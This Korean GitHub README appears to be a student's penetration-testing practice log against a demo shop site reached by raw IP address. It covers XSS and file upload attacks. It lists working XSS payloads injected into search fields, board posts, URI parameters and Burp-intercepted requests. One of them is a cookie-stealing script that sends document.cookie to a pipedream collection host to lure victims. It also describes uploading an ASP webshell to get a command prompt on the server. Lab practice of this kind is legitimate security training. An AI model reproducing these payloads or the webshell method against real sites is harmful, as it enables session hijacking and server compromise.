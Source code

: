 # Penetration-Testing2 - XSS, File upload

### XSS
1. Quick Search 입력창에 <script>alert("xss")</script>
![image](https://user-images.githubusercontent.com/82012857/176285803-79bdef8f-342d-40e9-8d71-d057434fc1d6.png)


2. 게시판에 HTML로 <script>alert(document.cookie)</script>
![image](https://user-images.githubusercontent.com/82012857/176285816-a06795fa-2c6f-493d-84bb-dfa9f91eca7d.png)

3. 아이디 중복확인의 URI에서 id값을 <script>alert("xss")</script>로 대치함
![image](https://user-images.githubusercontent.com/82012857/176285835-ebdf1ca5-a36f-4333-bdaa-61814d011795.png)
![image](https://user-images.githubusercontent.com/82012857/176285846-af12d59e-8331-4e29-ab7e-ff1c3668f403.png)

4. Advances Search의 검색어 Best10에 들어가서 URI부분에 http://61.39.155.24:50003/demoshop/shop/shop_searchresult.asp?frmSearchWord= 의 파라미터를 <script>alert("xss")</script>로 대치함
![image](https://user-images.githubusercontent.com/82012857/176285862-e6d4d8fb-487e-41d2-a295-cedf6f537ba8.png)
![image](https://user-images.githubusercontent.com/82012857/176285890-f1d80d40-cbec-4cad-9097-31ab7f494afc.png)

5. Keyword를 Search하는데 프록시를 켜고 Burp Suite 툴을 통해서 전송 값을 인터셉트하고 s_brand의 값을 BeneFit에서 <script>alert("xss")</script>로 대치하여 Forward
![image](https://user-images.githubusercontent.com/82012857/176285966-4f6da73a-69f2-4fd5-9717-af2e4068e242.png)
![image](https://user-images.githubusercontent.com/82012857/176285977-91ee3bee-f6e5-4d4c-88b0-06692f8cae02.png)
![image](https://user-images.githubusercontent.com/82012857/176285983-327fde04-1f58-43fb-a9b5-57c6a21e5e1c.png)

6. 게시판에 requestbin주소 스크립트를 올려서 클릭을 유도
/* <script>image = new Image();image.src=
'[https://en56a9kxt5rsp.x.pipedream.net/?'+document.cookie;</script](https://en56a9kxt5rsp.x.pipedream.net/?%27+document.cookie;%3C/script)> */

![image](https://user-images.githubusercontent.com/82012857/176286717-ff7c94a8-2e6a-4a8e-94f2-f43aa52d28cf.png)
![image](https://user-images.githubusercontent.com/82012857/176286728-3c68b3b5-eae2-4e52-a6d5-7d953725d89a.png)

#
### 파일 업로드
Board에 webshell.asp파일을 업로드하고 URI에서 상위경로 확인
http://61.39.155.24:50003/demoshop/shop_board/
상위 경로에서 upload_file에서의 자신의 파일을 찾고 파일을 클릭하면 cmd화면이 나옴
그 후 ipconfig하면 ip확인 가능

![image](https://user-images.githubusercontent.com/82012857/176286899-a25f5e22-f54f-48fc-b80e-7c3e7ef32116.png)
![image](https://user-images.githubusercontent.com/82012857/176286911-5827c256-5832-465e-8316-015736a1ccbe.png)
